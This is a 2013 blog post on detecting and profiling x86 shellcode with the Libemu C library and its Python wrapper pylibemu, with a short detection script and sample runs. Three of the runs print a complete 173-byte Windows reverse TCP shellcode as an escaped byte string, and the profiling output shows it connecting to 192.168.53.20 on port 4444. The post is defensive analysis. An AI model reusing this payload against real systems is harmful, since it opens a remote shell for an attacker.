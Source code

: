 x86 Emulation and Shellcode Detection
=====================================
date: 06/Mar/2013
summary: Libemu is a C library for x86 emulation and shellcode detection. Pylibemu is its Python wrapper that provides an easy-to-use API and has additional features compared to the default bindings.
tags: code, shellcode

[Libemu](http://libemu.carnivore.it/) is a C library that provides x86
architecture emulation and
[shellcode](http://www.infosecwriters.com/hhworld/shellcode.txt)
detection features. It uses
[GetPC](http://skypher.com/wiki/index.php?title=Hacking/Shellcode/GetPC)
heuristics to identify shellcode blobs within an input buffer.

> `GetPC` is a shellcode writing technique, commonly used with
> [selfmodifying](http://www.blackhatlibrary.net/Shellcode/Self-modifying)
> shellcode. Self-modification is a technique that enables a piece code
> to mutate itself, primarily to hide from AV/HIPS filters. A shellcode
> won't be loaded by a trusted loading mechanism, but would rather be
> injected into a target process's virtual address space. As such,
> during execution, it will have very limited knowledge of its execution
> context. Specifically, it won't be loaded at a known location and a
> reliable guess of its base location is unfeasible. Due to this
> limitation, one cannot use hardcoded `jmp`/`call` addresses in a
> shellcode but rather rely on some code to get the base address and
> then use offsets from the current base to reach specific locations
> inside shellcode buffer. Such a piece of code is also referred to as
> being [Position
> Independent](http://en.wikipedia.org/wiki/Position-independent_code).

Installation instructions are very well documented and a quick search
would provide you good references, like
[this](http://blog.xanda.org/2012/05/16/installation-of-libemu-and-pylibemu-on-ubuntu/)
for example. Once both Libemu and it's Python binding,
[pylibemu](https://github.com/buffer/pylibemu), are installed we can
have a quick validation test:

```python
#!/usr/bin/env python

import sys
import pylibemu

buf = ""
for line in sys.stdin.readlines():
  buf += line

print "[+] Testing buf of fize %dB ..." % (len(buf))

emu = pylibemu.Emulator()
offset = emu.shellcode_getpc_test(buf)

if offset >= 0:
  print "[+] IS SHELLCODE!"
else:
  print "[-] NOT SHELLCODE!"
```

Above program creates an `Emulator` instance and uses it to perform
`GetPC` test upon input buffer. It can read raw input from stdin which
in our case will be pipe'd through an `echo` command as such:

```bash
$ echo -en "\xff\xff\xff\xff" | python emutest.py
[+] Testing buf of fize 4B ...
[-] NOT SHELLCODE!
$
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" | python emutest.py
[+] Testing buf of fize 173B ...
[+] IS SHELLCODE!
```

As is evident, the sample buffer that was used in a pylibemu usage
example is indeed identified as shellcode through the `GetPC` test.
Pylibemu provides another very useful API method, `test()`, that can
profile shellcode bytes and identify Windows system calls, their
parameters, return values, etc. This helps in understanding the behavior
of identified shellcode:

```bash
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" | python emuprofile.py
[+] Testing buf of fize 173B ...
[+] IS SHELLCODE!
HMODULE LoadLibraryA (
  LPCTSTR = 0x02288910 =>
    = "ws2_32";
) =  0x71a10000;
int WSAStartup (
  WORD wVersionRequested = 2;
  LPWSADATA lpWSAData = 1244272;
) =  0x0;
SOCKET WSASocket (
  int af = 2;
  int type = 1;
  int protocol = 0;
  LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
  GROUP g = 0;
  DWORD dwFlags = 0;
) =  0x42;
int connect (
  SOCKET s = 66;
  struct sockaddr_in * name = 0x0012fe88 =>
    struct = {
      short sin_family = 2;
      unsigned short sin_port = 23569 (port=4444);
      struct in_addr sin_addr = {
        unsigned long s_addr = 339060928 (host=192.168.53.20);
      };
      char sin_zero = "       ";
    };
  int namelen = 16;
) =  0x0;
```

The profiling API identifies critical windows API calls above and
emulates them in its x86 emulator. The return values for all system
calls are recorded and dumped when requested. From the output it is
evident that the shellcode under test will load the win32 socket library
and then invoke socket calls to connect to host 192.168.53.20 through
TCP/4444 port. This implies that we are dealing with Windows/x86 Reverse
TCP Bind shellcode.

Libemu allows you to test arbitrary blob of bytes and test if it depicts
shellcode-like behavior. Projects like
[peepdf](http://code.google.com/p/peepdf/),
[pyew](https://code.google.com/p/pyew/), and
[Malzilla](https://code.google.com/p/pyew/) use Libemu for identifying,
profiling and analyzing shellcode within arbitrary binary streams.
Identifying shellcode in network streams is another interesting usecase
and there is an
[example](https://github.com/MITRECND/chopshop/blob/master/modules/shellcode_detector.py)
for you to play around.

Libemu includes an interesting program, `sctest`, that can perform
testing/profiling over arbitrary files. It can also generate a
[CFG](http://en.wikipedia.org/wiki/Control_flow_graph) for detected
shellcode and write it to a
[DOT](http://en.wikipedia.org/wiki/DOT_%28graph_description_language%29)
file which can then be rendered as an image:

```bash
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" >shellcode.bin
$
$ sctest -Sgs 1000000 -v -G test.dot <shellcode.bin
$
$ dot shellcode.dot -Tpng -o shellcode.png
```

Here is the generated CFG image:

![image](/static/files/shellcode.png)

